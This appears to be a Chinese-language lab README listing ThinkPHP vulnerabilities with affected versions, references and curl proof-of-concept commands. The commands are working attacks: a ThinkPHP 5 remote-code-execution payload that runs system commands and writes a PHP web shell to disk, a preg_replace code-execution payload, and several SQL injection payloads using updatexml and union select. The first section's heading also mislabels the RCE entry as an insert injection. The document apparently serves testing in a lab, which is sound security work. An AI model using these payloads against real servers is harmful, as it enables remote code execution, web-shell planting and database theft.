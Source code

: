 ## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/2.0/

影响范围

* 5.0.X - 5.0.23
* 5.1.X - 5.1.31

Poc

```
curl -g '127.0.0.1/public/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id'
curl -g '127.0.0.1/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=<?php%20system($_GET[0]);?>'
```

参考文档

* [thinkphp5框架缺陷导致远程代码执行](https://mp.weixin.qq.com/s/oWzDIIjJS2cwjb4rzOM4DQ)
* [Thinkphp5 远程代码执行漏洞事件分析报告](https://paper.seebug.org/770/)
* [thinkphp_v5_rce.txt](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/a9f165d7bc5bcc2b5e03153577bdfd83f35b0564/thinkphp/thinkphp_v5_rce.txt)

## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```

## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

## Thinkphp3.2.3 update注入漏洞

测试镜像

* src/thinkphp/3.2.3/

影响版本

* Thinkphp < 3.2.3

参考链接

* [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl -g 'http://172.17.0.2/index.php/home/user?user[0]=bind&user[1]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回内容包含sql报错：XPATH syntax error: '~root@localhost~'



## Thinkphp exp表达式注入漏洞

测试镜像

* src/thinkphp/3.2.3/

影响版本

* Thinkphp 3.x 5.x

参考文档

* [ThinkPHP框架架构上存在SQL注入](https://www.secpulse.com/archives/29826.html)

Poc

```shell
curl -g 'http://172.17.0.2/index.php/home/user/exp_inject?id[]=exp&id[]=%3d888%20union%20select%201,database(),3%23'
```

